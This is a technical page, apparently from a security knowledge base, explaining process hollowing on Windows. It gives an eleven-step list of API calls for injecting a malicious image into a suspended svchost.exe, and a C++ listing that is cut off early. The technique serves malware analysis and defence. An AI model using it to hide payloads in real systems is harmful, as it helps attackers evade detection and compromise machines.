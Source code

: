 # Process hollowing

## Overview

| ![Hollowing](/_static/images/hollowing.png) |
|:--:|
| How Windows API calls interact with process memory. |

1. Create a target process in a suspended state ([CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)).
2. Obtain a handle for the malicious image ([CreateFileA](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea))
3. Allocate enough memory for the image inside the processes own address space ([VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [GetFileSize](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfilesize) can be used to retrieve the size of the malicious image for dwSize).
4. Write to local process memory ([ReadFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) and [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)).
5. Identify the location of the process in memory and the entry point ([GetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext) and [ReadProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory)).
6. Un-map legitimate code from process memory ([ZwUnmapViewOfSection](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwunmapviewofsection), imported from ntdll.dll).
7. Obtain the size of the image found in file headers (e_lfanew and SizeOfImage from the [Optional header](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-image_optional_header32)).
8. Write the PE headers then the PE sections ([WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
9. Write each section (NumberOfSections, e_lfanew, and [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
10. Change EAX to point to the entry point ([SetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext)).
11. Take the process out of suspended state ([ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)).

## C++ code

```text
#include<Windows.h>
#include<stdio.h>
#include<iostream>
#pragma comment(lib, "ntdll.lib")
using namespace std;

typedef LONG(NTAPI* pfnZwUnmapViewOfSection)(HANDLE, PVOID);


int main() {

	LPSTARTUPINFOA target_si = new STARTUPINFOA();
	LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION();
	CONTEXT c;


	//#########################################################################
	//create Target image for hollowing
	if (CreateProcessA(
		(LPSTR)"C:\\Windows\\System32\\svchost.exe",
		NULL,
		NULL,
```